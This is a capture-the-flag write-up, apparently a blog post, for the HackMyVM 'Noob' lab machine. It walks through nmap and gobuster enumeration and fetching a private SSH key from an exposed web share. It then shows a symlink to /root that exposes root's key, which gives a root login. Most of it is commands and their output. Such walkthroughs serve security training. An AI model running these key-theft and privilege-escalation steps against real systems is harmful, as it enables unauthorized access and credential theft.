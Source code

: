 ```yaml
---
title: "Noob  Writeup HackMyVM"
date: 2025-07-10 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Privilege Escalation, SSH, rsa key, symbolic link]
---
```


![Alt Text](/img/noob/1.png)


<strong>The penetration test began with a nmap scan, which revealed that ports 22 (SSH) and 65530 were open. Further enumeration using Gobuster on port 65530 led to the discovery of the nt4share directory. SSH connection was established using a key found in nt4share. To escalate privileges, a symbolic link was created, granting access to the root account. The penetration test culminated in accessing the root account via SSH using the newly acquired key, enabling the retrieval of the flags.</strong>


<a href="https://hackmyvm.eu/machines/machine.php?vm=Noob" target="_blank" rel="noopener noreferrer">vm link</a>

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ip=192.168.0.124
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
 - also try ```nmap -sCV -p22,65530 -n -Pn -vvv 192.168.0.124 -oN target```

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ sudo nmap -sC -sV -p- -T4 -A -O $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-18 06:50 IST
Nmap scan report for 192.168.0.124
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:6a:8e:22:cd:dd:75:52:a6:0a:46:06:bc:df:53:0f (RSA)
|   256 c2:48:46:33:d4:fa:c0:e7:df:de:54:71:58:89:36:e8 (ECDSA)
|_  256 5e:50:90:71:08:5a:88:62:7e:81:07:c3:9a:c1:c1:c6 (ED25519)
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
MAC Address: 08:00:27:6C:C3:C4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.98 ms 192.168.0.124

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds

```

- Port 22 & 65530 are open

![Alt Text](/img/noob/2.png)

## Gobutser port 65530

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ gobuster dir -u http://$ip:65530/ -w /wordlists/directory-list-2.3-medium.txt -x php,txt,html,css,js,zip,bak -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.124:65530/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,css,js,zip,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 19]
/http%3a%2f%2fwww     (Status: 301) [Size: 45] [--> /http:/www]
/http%3a%2f%2fwww.bak (Status: 301) [Size: 49] [--> /http:/www.bak]
/http%3a%2f%2fwww.php (Status: 301) [Size: 49] [--> /http:/www.php]
/http%3a%2f%2fwww.txt (Status: 301) [Size: 49] [--> /http:/www.txt]
/http%3a%2f%2fwww.html (Status: 301) [Size: 50] [--> /http:/www.html]
/http%3a%2f%2fwww.css (Status: 301) [Size: 49] [--> /http:/www.css]
/http%3a%2f%2fwww.js  (Status: 301) [Size: 48] [--> /http:/www.js]
/http%3a%2f%2fwww.zip (Status: 301) [Size: 49] [--> /http:/www.zip]
/http%3a%2f%2fyoutube (Status: 301) [Size: 49] [--> /http:/youtube]
/http%3a%2f%2fswik.html (Status: 301) [Size: 51] [--> /http:/swik.html]
/http%3a%2f%2fswik.css (Status: 301) [Size: 50] [--> /http:/swik.css]
/http%3a%2f%2fswik.js (Status: 301) [Size: 49] [--> /http:/swik.js]
/http%3a%2f%2fswik.zip (Status: 301) [Size: 50] [--> /http:/swik.zip]
/http%3a%2f%2fswik.bak (Status: 301) [Size: 50] [--> /http:/swik.bak]
/http%3a%2f%2fswik.php (Status: 301) [Size: 50] [--> /http:/swik.php]
/nt4share             (Status: 301) [Size: 45] [--> /nt4share/]                                <<<
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
                                                                
```
![Alt Text](/img/noob/3.png)

![Alt Text](/img/noob/4.png)

- Chek keys
- Let's try `SSH` with `id_rsa`

`wget http://$ip:65530/nt4share/.ssh/id_rsa`

`chmod 600 id_rsa`


## Establish SSH connection

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa adela@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 22:18:48 2024 from 192.168.0.190
adela@noob:~$ id
uid=1000(adela) gid=1000(adela) groups=1000(adela),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
adela@noob:~$ 
```

## Privilege Escalation

#### >> Creating a symbolic link named root that points to the root directory (/root) allows for easy access to the root directory from another location in the filesystem.

```shell                                                                           
adela@noob:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
adela:x:1000:1000:adela,,,:/home/adela:/bin/bash
adela@noob:~$ ln -s /root root
adela@noob:~$ ls -al
total 28
drwxr-xr-x 3 adela adela 4096 Jun 17 21:02 .
drwxr-xr-x 3 root  root  4096 Jul 11  2021 ..
-rw-r--r-- 1 adela adela  220 Jul 11  2021 .bash_logout
-rw-r--r-- 1 adela adela 3526 Jul 11  2021 .bashrc
-rw-r--r-- 1 adela adela  807 Jul 11  2021 .profile
lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root                                       <<<
drwx------ 2 adela adela 4096 Jul 13  2021 .ssh
-rw------- 1 adela adela   50 Jul 14  2021 .Xauthority 
```
- `lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root` symbolic link created.
- Accessing the `nt4share` again. We have a new directory `root`
![Alt Text](/img/noob/5.png)

![Alt Text](/img/noob/6.png)

#### >> Let's get `id_rsa` from `root` and `SSH` it.

`wget http://$ip:65530/nt4share/root/.ssh/id_rsa`


```shell                                                                           
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa root@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 21:10:45 2024 from 192.168.0.190
root@noob:~# ls
root.txt  user.txt
root@noob:~# 

```
- Now we have both the flags

<br>
<center>pwned</center>